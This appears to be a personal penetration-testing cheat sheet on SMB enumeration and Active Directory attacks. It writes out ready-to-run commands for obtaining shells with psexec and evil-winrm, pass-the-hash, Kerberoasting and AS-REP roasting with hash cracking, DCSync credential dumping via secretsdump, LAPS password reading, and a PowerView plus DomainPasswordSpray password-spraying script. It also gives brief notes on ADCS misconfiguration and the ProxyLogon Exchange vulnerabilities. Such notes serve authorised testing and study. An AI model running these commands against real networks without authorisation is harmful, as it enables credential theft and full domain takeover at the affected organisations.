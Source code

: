 ##### nmap
locate and run scripts -> `locate -r '\.nse$' | xargs grep categories | grep "<categorie1|categorie2>"`

##### smb
`smbclinet -L //<ip>`
	to download all accessed files: `recurse ON` , `prompt OFF`, `mget *`
`smbmap -H <ip>` 
	`-R <dir_share>` recursive directory listing  
	`-A <file_name>` download file using it's name, no need for path
`enum4linux <ip>`


##### AD enum
##### have user on box
**enumerate users**: `GetADUsers.py -all <domain.name>/<user> -dc-ip <domain_ip>`

###### run bloodhound
- get cmd on target using `psexec` or using `runas /netonly /user:dc\uname cmd`
- run `sharpHound.exe -c all -d <dc> --domainController <ip>` to collect info for bloodhound  **make sure u use correct DNS configured on windows machine**
- `neo4j start`  and `./bloodhound`
##### get shell
- `crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'`
		protocols: `smb` , `winrm`
	- then u can use `evil-winrm` or `psexec`
- **shell** in case of u have writable SMB dir: `psexec.py <domain.name>/<user>@<domain_ip>`
- pass the hash
	`psexec.py <domain>/<user>@<ip> -hashs <NTHash:NTHash>`
- use certificate or private key : `evil-winrm -c key.crt -k key.pem` 
	u make need to use `-S` if `wsmans` enabled

###### AD attacks
before we talk about attacks, whenever heard the word AD think about it as a forest, cuz if a domain on forest is compromised attackers can simply attack other domains without any ability to stop them
![[Pasted image 20241009174415.png]]
-------
- SPN users
	- Use the following queries in BloodHound:
		- “List all Kerberoastable Accounts”
		- “Find Kerberoastable Users with Most Privileges”
	- To obtain an account hash from the Ticket Granting Service (TGS), run:
	  `GetUserSPNs.py -request -dc-ip <DomainControllerIP> <domain\user>`
	- After retrieving the TGS ticket, crack the hash using **hashcat**. `13100`
	> Kerberoastable accounts are service accounts that run with user credentials, as opposed to machine/computer accounts. These user accounts often have weak passwords, making them prime targets for Kerberoasting.
	> In Kerberos authentication, step 5 ("tgs-req") involves the user requesting a TGS. The Domain Controller issues a TGS ticket encrypted with the service account's password hash. If this password is weak, the hash can be cracked to gain access to the service account.

	https://www.tarlogic.com/blog/how-to-attack-kerberos/#Kerberoasting
	https://tcm-sec.com/kerberoasting-domain-accounts/
----------
 - NP user (authenticated users without password)
	 get TGTs for those users that have the property 'Do not require Kerberos preauthentication'
	 - get TGT `GetNPUsers.py <domain/username>`
	 - decrypt TGT using john or hashcat
---------
- DCSync attack
	DC sync is add new domain controller to the domain in order to join the domain the DC sync ntds.dit and other important data
	tools: mimicaz or impact `secretsdump.py <domain/user@ip>` ![[Pasted image 20241007135348.png]]
----
- `LAPS Reader` group can access passwords 
	`Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *`
	or use python script: [LAPSDumper](https://github.com/n00py/LAPSDumper)
	https://www.powershellgallery.com/packages/Get-ADComputers-LAPS-Password/2.0/Content/Get-ADComputers-LAPS-Password.ps1 
---
- password spray using [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
	- get users by [powerview](https://github.com/PowerShellMafia/PowerSploit/)
	```
	powershell.exe -nop -exec bypass
	Import-Module PowerView.ps1
	# get domain
	Get-Domain | select Name
	# get users
	Get-NetUser -Domain <domain-name> | select cn | out-file users.txt
	```
	- lunch the attack
	```
	Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
	```
----
- ADCS expolit
	ADCS: Active Directory Certificate Services , witch used to issue certs that used for encrypt communication, authentication
	that certs have a `certificate Templates` witch define **how certificates are issued** and their **permissions**.
	- if configured wrong ->
		- used in NTLM Relay to ADCS
		- Domain impersonate
	

----
https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet?tab=readme-ov-file


----
----
### vulns 
#### ProxyLogon
- **Technical Details**: A combination of vulnerabilities (CVE-2021-26855 and others) in Microsoft Exchange Server. Exploits included:
    - **Server-Side Request Forgery (SSRF)**: Allowed attackers to bypass authentication.
    - **Privilege Escalation**: Enabled attackers to impersonate users and execute arbitrary commands as SYSTEM.
- **Exploitation**: Attackers could use these vulnerabilities to drop web shells (malicious scripts) on servers for persistent access.
- affects: (Exchange 2013 Versions , Exchange 2016 CU18 , Exchange 2016 CU19, Exchange 2019)
- https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxylogon_rce/
----
